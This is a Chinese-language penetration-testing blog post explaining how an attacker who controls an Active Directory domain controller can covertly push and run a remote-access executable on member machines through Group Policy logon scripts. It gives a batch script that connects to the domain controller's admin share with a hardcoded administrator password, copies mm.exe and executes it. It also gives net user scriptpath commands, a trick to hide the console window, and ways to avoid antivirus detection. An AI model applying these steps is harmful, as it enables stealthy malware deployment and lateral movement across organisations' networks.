








0x01 背景
内网渗透中，当控制到域控时，当然是再好不过，但如何控制成员机器或个人机呢，域管理员账号登录？太敏感，动作大；psexec,wmi..?杀软报毒，不要不信，亲身经历；
想要直接推送个远控，神不知鬼不觉的搞定成员；
那么问题来了，如何推送个exe？
0x02 研究
方法1
查找大量相关资料，都没有现成的方法直接下发exe，然而吐司竟然也没有，最后，锁定了组策略开机脚本
域成员登录时，执行域控提前部署好的bat脚本，通过此脚本，IPC连接到域控，copy文件，在成员上执行。
环境：
| OS | IP | Role |
|---|---|---|
| win2008 | 192.168.2.100 | 域控 |
| win7 | 192.168.2.200 | 域成员 |
| ubuntu14.04 | 192.168.2.250 | 非域成员（cs） |
(1) ad用户和计算机
新建OU（名称任意）

新建用户（redn3ck）

(2) gpmc.msc组策略管理
gpmc.msc——右键组策略对象——新建（ADcontrol）

右键ADcontrol——编辑——用户配置——windows设置——脚本——登录——显示文件——新建ADControl.bat

代码如下1
2
3
4net use \\192.168.2.100 p@ssw0rd /user:administrator@red.com
copy \\192.168.2.100\c$\test\mm.exe c:\test\
cmd /c c:\test\mm.exe
net use * /del /y
添加——浏览——选择ADControl.bat

右键OU——链接现有GPO——选择ADcontrol

(3) 刷新策略
1 | gpupdate /force |

(4) 重启域成员
使用新建账户(redn3ck)登录，成功copy文件，并执行

方法2
(1) 创建bat
logon默认路径：C:\Windows\SYSVOL\sysvol\red.com\scripts
1 | //logon.bat |
(2) 执行
1 | net user redn3ck /scriptpath:logon.bat |
cmd /c start否则开机会有cmd窗口
方法3
Domain computer——管理——添加用户到远程管理组
0x03 总结
脚本需要放在《显示文件》目录中，其他目录成员机无法访问到，因此也就无法执行
域用户（redn3ck）在根目录均无权限，
windows\temp目录可copy进去，但无法执行，因此copy时需选择有权限目录实际环境中当然不能重启机器，只需要等待域成员账号开机登录即可